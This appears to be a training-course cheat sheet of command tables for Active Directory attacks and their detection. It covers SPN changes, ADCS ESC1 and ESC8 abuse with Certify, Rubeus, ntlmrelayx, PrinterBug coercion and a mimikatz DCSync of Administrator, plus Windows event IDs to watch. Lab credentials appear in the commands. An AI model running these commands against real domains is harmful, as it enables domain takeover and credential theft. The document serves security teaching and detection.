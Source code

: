 | Command | Description |
| --- | --- |
| `setspn -D http/ws001 anni` | Removing the http/ws001 SPN from the anni user. |
| `setspn -U -s ldap/ws001 anni` | Setting a new SPN, ldap/ws001, on the anni user. |
| `setspn -S ldap/server02` server01 | Setting a new SPN, ldap/server02, on the server01 machine. |

# PKI - ESC1

| Command | Description |
| --- | --- |
| `.\Certify.exe find /vulnerable` | Using the Certify.exe tool to scan for vulnerabilities in PKI infrastructure. |
| `.\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator` | Using the Certify.exe tool to obtain a certifcate from the vulnerable template |
| `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx` | Command to convert a `PEM` certificate to a `PFX` certificate. |
| `.\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt` | Using the Rubeus.exe tool to request a TGT for the domain Administrator by way of forged certifcate. |
| `runas /user:eagle\htb-student powershell` | Start a new instance as powershell as the htb-student user. |
| `New-PSSession PKI` | Start a new remote powershell session on the `PKI` machine. |
| `Enter-PSSession PKI` | Enter a remote powershell session on the `PKI` machine. |
| `Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}` | Using the Get-WinEvent cmdlet to view windows Event 4887 |
| `$events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}` | Command used to save the events into an array |
| `$events[0] \| Format-List -Property *` | Command to view events within the array. The `0` can be adjusted to a different number to match the corresponding event |

# PKI & Coercing - ESC8

| Command | Description |
| --- | --- |
| `impacket-ntlmrelayx -t http://172.16.18.15/certsrv/default.asp --template DomainController -smb2support --adcs` | Command to forward incoming connections to the CA. The `--adcs` switch makes the tool parse and display the certificate if one is received. |
| `python3 ./dementor.py 172.16.18.20 172.16.18.4 -u bob -d eagle.local -p Slavi123` | Using the PrinterBug to trigger a connection back to the attacker. |
| `xfreerdp /u:bob /p:Slavi123 /v:172.16.18.25 /dynamic-resolution ` | Connecting to WS001 from the Kali host using RDP. |
| `.\Rubeus.exe asktgt /user:DC2$ /ptt /certificate:<b64 encoded cert>` | Using Rubeus.exe to ask for a TGT by way of base 64 encoded certificate. |
| `mimikatz.exe "lsadump::dcsync /user:Administrator" exit ` | Using mimikatz.exe to DCsync the `administrator` user. This is performed once the TGT for DC2 has been passed to the current session. |
| `evil-winrm -i 172.16.18.15 -u htb-student -p 'HTB_@cademy_stdnt!'` | Connecting to PKI from the Kali Host using evil-winrm. |

# Windows Events

| Event ID | Description |
| --- | --- |
| `4769` | Event generated when a TGS is requested. Can be indicative of Kerberoasting. |
| `4768 ` | Event generated when a TGT is requested. Can be indicative of Asreproasting. |
| `4625` | Event generated when an account fails to log on. |
| `4771` | Event generated by a Kerberos pre-authentication failure. |
| `4776` | Event generated when attempting to validate the credentials of an account. |
| `5136` | Event generated when a GPO is modified, if Directory Service Changes auditing is enabled. |
| `4725` | Event generated when a user account is disabled. |